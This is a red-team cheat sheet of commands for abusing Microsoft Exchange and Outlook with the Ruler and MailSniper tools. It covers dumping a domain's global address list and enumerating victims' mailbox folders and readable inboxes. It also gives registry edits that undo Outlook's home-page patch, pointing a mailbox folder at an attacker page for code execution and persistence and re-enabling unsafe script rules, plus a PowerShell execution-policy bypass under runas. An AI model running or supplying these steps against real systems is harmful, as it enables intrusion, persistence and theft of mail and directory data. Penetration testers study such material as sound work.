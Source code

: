 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# ruler
Abuse Microsoft Exchange - dump global address list, etc.
* **NOTE:** hasn't been working that well lately, use mailsniper

## Install
```
$ go get -v github.com/sensepost/ruler
# if source doesn't compile, just grab the binary:
$ wget https://github.com/sensepost/ruler/releases/download/2.2.0/ruler-linux64
```

## Run autodiscover
```
$ ./ruler-linux64 --domain evilcorp.com autodiscover 
[+] Looks like the autodiscover service is at: http://autodiscover.evilcorp.com/autodiscover/autodiscover.xml 
[+] Checking if domain is hosted on Office 365
[+] Domain is hosted on Office 365
```

## Grab the Global Address List
```
# just list the address book
$ ruler --email angela@evilcorp.com abk list
# output to file
$ ruler --email angela@evilcorp.com abk dump --output /tmp/gal.txt
```

## Rolling back the patch
- https://www.fireeye.com/blog/threat-research/2019/12/breaking-the-rules-tough-outlook-for-home-page-attacks.html
An attacker can set a home page to achieve code execution and persistence by editing the WebView registry keys. The “URL” subkey will enable and set a home page for the specified mail folder within the default mailbox. Setting this registry key to a valid URL enables the home page regardless of the patch being applied or not. Although the option will not be accessible from the Outlook user interface (UI), it will still be set and render. Importantly, these keys are set within the logged-on user’s Registry hive. This means that no special privileges are required to edit the Registry and roll back the patch. The FireEye Red Team found that no other registry modifications were required to set a malicious Outlook homepage.
```
HKEY_CURRENT_USER\Software\Microsoft\Office\<Outlook Version>\ Outlook\WebView\Inbox
“URL”= http://badsite/homepage-persist.html
```
There are additional keys within the Registry that can be modified to further roll back the patch and expose unsafe options in Outlook. The following setting can be used to re-enable the original home page tab and roaming home page behavior in the Outlook UI.
```
HKEY_CURRENT_USER\Software\Microsoft\Office\<Outlook Version>\Outlook\Security
“EnableRoamingFolderHomepages”= dword:00000001
```
The following setting will allow for folders within secondary (non-default) mailboxes to leverage a custom home page.
```
HKEY_CURRENT_USER\Software\Microsoft\Office\<Outlook Version>\Outlook\Security
“NonDefaultStoreScript"= dword:00000001
```
The following setting will allow for “Run as a Script” and “Start Application” rules to be re-enabled.
```
HKEY_CURRENT_USER\Software\Microsoft\Office\<Outlook Version>\Outlook\Security
“EnableUnsafeClientMailRules"= dword:00000001
```

# MailSniper

## Pull the global address list
```
$ Get-GlobalAddressList -ExchHostname mail.evilcorp.com -username evilcorp\angela -password "P@ssw0rd1" -outfile gal.txt
```

## NOTE: RUN ALL THESE COMMANDS IN A RUNAS /NETONLY SESSION
```
$ runas /netonly /user:evilcorp\bob "powershell -ep bypass"
Enter the password for evilcorp\bob:
Attempting to start powershell -ep bypass as user "evilcorp\bob" ...

# In new window:
$ import-module .\mailsniper.ps1
```

## List inbox folders
```
$ Get-MailboxFolders -Mailbox bob@evilcorp.com
[*] Trying Exchange version Exchange2010
[*] Autodiscovering email server for bob@evilcorp.com...
[*] Now searching mailbox: bob@evilcorp.com for folders.
[***] Found folder: Calendar
[***] Found folder: Contacts
[***] Found folder: Deleted Items
[***] Found folder: Drafts
[***] Found folder: Inbox
...
```

## Find open inboxes (inboxes which current user has permission to view)
```
$ invoke-openinboxfinder -ExchHostname mail.evilcorp.com -EmailList .\EvilCorp-GlobalAddressList.txt
```